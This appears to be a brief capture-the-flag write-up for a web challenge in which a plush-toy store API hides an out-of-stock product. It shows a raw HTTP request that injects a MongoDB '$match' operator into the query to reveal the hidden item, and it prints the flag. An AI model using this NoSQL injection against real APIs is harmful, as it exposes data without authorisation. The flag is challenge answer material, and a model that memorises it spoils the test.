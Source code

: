 We're working on a new Ghibli store to sell the cutest plush toys you'll find on the internet! We don't have all the products in stock yet, can you find the hidden item?

Challenge Host: http://ghibli.pwn.site:8035/

Change instock value for product API to false:

```http
POST /api/products HTTP/1.1
Host: ghibli.pwn.site:8035
Content-Length: 38
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://ghibli.pwn.site:8035
Referer: http://ghibli.pwn.site:8035/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

{"query":{"$match":{"instock":false}}}
```

Flag 1:

flag{s1mpl3_m47ch_w45_4ll_1t_n33d3d}


